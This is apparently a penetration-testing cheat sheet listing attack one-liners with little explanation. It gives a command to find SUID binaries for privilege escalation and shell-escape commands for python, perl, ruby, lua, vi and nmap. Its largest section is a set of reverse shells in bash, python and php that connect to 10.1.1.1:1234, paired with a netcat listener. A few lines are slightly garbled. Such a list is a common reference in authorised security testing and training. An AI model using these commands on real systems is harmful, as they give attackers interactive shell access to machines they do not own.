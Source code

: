 # find files permission for the current user

`find / -perm -u=s -type f 2>/dev/null`

# spawn tty

source https://netsec.ws/?p=337

`python -c 'import pty; pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

`perl —e 'exec "/bin/sh";'`

`perl: exec "/bin/sh";`

`ruby: exec "/bin/sh"`

### lua:

`os.execute('/bin/sh')`

### (From within IRB)

`exec "/bin/sh"`

### (From within vi)

`:!bash`

### (From within vi)

`:set shell=/bin/bash:shell`

### (From within nmap)

`!sh`

# Reverse shell

source http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On the Attacker machine, use nc to open the listening port

`nc -lvp 1234`

On the Vulnerbale Machine do one of the following depending on the programming language

### bash

`bash -i >& /dev/tcp/10.1.1.1/1234 0>&1`


### python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.1.1.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'`


### php

`php -r '$sock=fsockopen("10.1.1.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
`
